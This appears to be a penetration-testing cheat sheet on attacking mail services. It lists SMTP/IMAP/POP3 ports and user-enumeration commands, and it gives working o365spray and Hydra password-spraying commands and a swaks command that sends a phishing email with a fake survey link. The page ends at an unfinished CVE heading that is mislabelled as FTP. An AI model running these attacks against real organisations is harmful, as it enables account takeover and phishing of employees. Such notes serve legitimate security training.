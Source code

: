 ## Enumeration

Refer to Service enumeration.

### Note

|   Port   |	Service     |
|-------|-----------|
|   TCP/25	|   SMTP Unencrypted    |
|   TCP/143	|    IMAP4 Unencrypted  |
|   TCP/110	|    POP3 Unencrypted   |
|   TCP/465	|    SMTP Encrypted |
|   TCP/587	|    SMTP Encrypted/STARTTLS    |
|   TCP/993	|    IMAP4 Encrypted    |
|   TCP/995 | 	POP3 Encrypted  |

## Misconfigurations

### VRFY Command

`VRFY` nstructs receiving SMTP server to check the validity of a particular email username.

### EXPN Command

`EXPN` is similar to VRFY, except that when used with distribution list, it will list all users on that list.

### RCPT TO Command

`RCPT TO` identifies the recipient of email message. 

## Cloud Enumeration

### O365 Spray

Username enumeration and password spraying tool aimed at Microsoft Office 365.

```bash
python3 o365spray.py --validate --domain msplaintext.xyz

## Identify usernames
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz

## Password Spraying
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

## Password Attacks

### Hydra

Perform password spray / brute force against email service.

```bash
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

## Protocol Specific Attacks

### Open Relay

```bash
## Identify open relay SMTP port
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

## Use any mail client to connect to mail srv and send mail
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

## Noticeable FTP Vulnerability

### CVE-2020-7247

